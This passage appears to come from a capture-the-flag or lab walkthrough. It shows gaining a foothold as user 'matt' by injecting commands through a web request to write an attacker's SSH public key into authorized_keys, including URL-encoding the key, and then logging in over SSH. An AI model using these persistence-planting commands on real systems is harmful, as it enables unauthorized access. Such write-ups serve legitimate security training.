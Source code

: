 ![image.png](image%2018.png)

Let’s execute bash reverse shell to get a shell access on our machine.

I tried pinging from target machine my machine but it seems target machine cannot access mine, I tried pinging also from `daniel` user shell that I have obtained before. I am gonna try to upload public key under matt user `.ssh` directory and use private key to access it.

First check if `PublicKeyAuthentication` is enabled:

![image.png](image%2019.png)

![image.png](image%2020.png)

```bash
ssh-keygen
```

![image.png](image%2021.png)

![image.png](image%2022.png)

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHm8XwuVIyFz6IvC8VDgqw1CyQVqW97OwB2bx17+/bEy kali@kali' > /home/matt/.ssh/authorized_keys
```

![image.png](image%2023.png)

Unfortunately it didn’t worked.

I think as it is a web request it interpreted `+` as `space` that’s why we don’t have space so I changed `+` with its URL-encoded form :

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHm8XwuVIyFz6IvC8VDgqw1CyQVqW97OwB2bx17%2b/bEy kali@kali' > /home/matt/.ssh/authorized_keys
```

> - **VERY important:**
    - `.ssh` must be `700`
    - `authorized_keys` must be `600`
    - Owned by `matt`
{: .prompt-warning } 

Otherwise SSH **refuses** to use them.

```bash
chmod 700 /home/matt/.ssh
chmod 600 /home/matt/.ssh/authorized_ke
```
 

```bash
ssh matt@$IP -i key
```

**Now we are in as matt.**
